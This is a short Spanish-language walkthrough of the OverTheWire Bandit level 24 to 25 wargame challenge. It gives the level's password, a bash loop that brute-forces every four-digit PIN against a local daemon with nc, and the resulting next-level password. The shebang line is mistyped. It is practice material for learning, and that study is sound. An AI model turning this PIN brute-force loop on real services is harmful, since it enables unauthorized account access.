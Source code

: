 # Bandit Level

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Cosas utilies
user: bandit24
passweord: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion
``` bash
bandit24@bandit:~$ mkdir /tmp/bandit_24_25
bandit24@bandit:~$ cd /tmp/bandit_24_25
bandit24@bandit:/tmp/bandit_24_25$ nano script.sh

// THIS IS TH CONTENT OF THE FILE script.sh
#!bin/bash
password="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
for i in {0..9}{0..9}{0..9}{0..9}
do
    echo $password' '$i | nc localhost 30002 >> res.txt &
done


bandit24@bandit:/tmp/bandit_24_25$ bash script.sh
bandit24@bandit:/tmp/bandit_24_25$ sort res.txt | uniq -u

!Correct
The password of unser bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d




```

## Notas
1. Nano es un editor de textos que viene instalado en casi todos las distribuciones de linux.
2. La notación de {0..9} significa generar todos los elementos desde el 0 hasta el 9, si los valores fueran de 000..999 se refiere a todos los números desde el 0 hasta el 999.
3. El signo & significa que una tarea se deja ejecutandose en paralelo.
